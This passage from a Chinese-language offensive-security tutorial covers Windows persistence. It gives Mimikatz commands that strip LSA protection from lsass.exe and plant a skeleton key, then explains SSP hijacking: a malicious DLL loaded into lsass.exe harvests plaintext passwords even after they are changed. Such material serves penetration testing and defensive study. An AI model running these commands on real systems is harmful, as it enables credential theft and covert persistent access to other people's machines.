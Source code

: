 #### [](#225-%E7%BB%95%E8%BF%87-lsa-protection)2.2.5 绕过 LSA Protection

Mimikatz 命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```powershell<br>privilege::debug<br>!+<br>!processprotect /process:lsass.exe /remove<br>misc::skeleton<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209095049.png-water_print](assets/1699409504-d71e2099fc0bd2aad070539dbd56547f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209095049.png-water_print")

### [](#23-ssp-%E5%8A%AB%E6%8C%81)2.3 SSP 劫持

**SSP**

> SSP (Security Support Provider)，是 windows 操作系统安全机制的提供者。简单的说，SSP 就是 DLL 文件，主要用于 windows 操作系统的身份认证功能，例如 NTLM、 Kerberos、Negotiate、Secure Channel(Schannel)、 Digest、Credential(CredSSP)

**SSPI**

> SSPI(Security Support Provider Interface)是 windows 操作系统在执行认证操作时使用的 API 接口。可以说 SSPI 就是 SSP 的 API 接口。

**LSA**

> Local Security Authority，用于身份认证，常见进程为 lsass.exe

如果获得目标系统 system 权限，可以使用该方法进行持久化操作。其主要原理是：LSA(Local Security Authority)用于身份验证。Isass.exe 作为 windows 的系统进程，用于本地安全和登录策略；

在系统启动时，SSP 将被加载到 lsass.exe 进程中。但是，假如攻击者对 LSA 进行了扩展，自定义了恶意的 DLL 文件在系统启动时将其加载到 lsass.exe 进程中，就能够获取 lsass.exe 进程中的明文密码。这样即使用户更改密码并重新登录，攻击者依然可以获得该账号的新密码。
